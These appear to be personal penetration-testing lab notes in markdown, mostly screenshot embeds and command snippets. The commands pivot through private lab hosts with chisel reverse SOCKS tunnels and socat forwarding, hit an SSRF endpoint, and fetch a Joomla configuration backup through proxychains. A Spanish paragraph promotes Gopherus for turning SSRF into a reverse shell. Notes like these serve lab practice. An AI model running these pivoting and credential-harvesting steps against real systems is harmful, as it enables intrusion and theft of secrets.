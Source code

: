 ```java
rustup update
```

![[Pasted image 20231024161121.png]]

```java
sudo cargo test
```

![[Pasted image 20231024161404.png]]

```java
./http3-client https://127.0.0.1
```

![[Pasted image 20231025134810.png]]

```java
scp socat root@192.168.153.153:/root/socat
./chisel client 192.168.153.152:1234 R:socks
./chisel server --reverse -p 1234
```

![[Pasted image 20231025163503.png]]

```java
http://10.10.0.128/internalResourceFeTcher.php
```

![[Pasted image 20231109173316.png]]

```java
python3 -m http.server 80
./chisel client 192.168.153.162:1234 R:socks
./chisel server --reverse -p 1234
./socat TCP-LISTEN:4343,fork TCP:192.168.153.152:80
```

![[Pasted image 20231109174754.png]]

```java
http://10.10.0.129:4343
```

![[Pasted image 20231109174738.png]]
```java
mkdir Content && cd Content && porxychains curl -s -X GET http://10.10.0.128/joomla/configuration.php.pak > configuration.php
```
![[Pasted image 20231110102820.png]]
```java
nano configuration.php
goblin

```
![[Pasted image 20231205120658.png]]
![[Pasted image 20231110131042.png]]
Si conoce un lugar que es vulnerable a SSRF, esta herramienta le ayudará a generar la carga útil de Gopher para explotar SSRF (falsificación de solicitudes del lado del servidor) y obtener RCE (ejecución remota de código). Y también le ayudará a obtener el shell inverso en el servidor víctima. Y para más información puedes conseguir un blog en el mismo Blog en Gopherus
![[Pasted image 20231110131016.png]]
